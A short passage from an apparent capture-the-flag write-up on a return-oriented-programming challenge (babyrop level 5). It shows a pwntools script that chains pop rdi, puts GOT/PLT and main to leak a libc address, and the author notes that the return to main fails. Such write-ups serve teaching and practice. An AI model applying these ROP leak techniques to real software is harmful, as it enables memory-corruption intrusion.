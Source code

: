 What happens if I call the main again?

This idea sound good.

![image](img/level5/26.png)

```python
payload_leak = offset
payload_leak += poprdi_ret
payload_leak += puts_got
payload_leak += puts_plt
payload_leak += main     #0x401d88

r = process('/challenge/babyrop_level5.0')
r.recvuntil(b'Return Oriented Programming!\n')
r.sendline(payload_leak)
r.recvuntil(b'Leaving!\n')
addr_puts_byte = r.recv(6)
addr_puts = bytes_to_hex(addr_puts_byte)
print(f"LEAKKKKKKKKKK {addr_puts_byte} : {hex(addr_puts)}")

r.recvuntil(b'Return Oriented Programming!\n')
r.sendline(b'a'*10)


r.interactive()
```

![image](img/level5/27.png)

***It seems that I call the main again unsuccessful.***
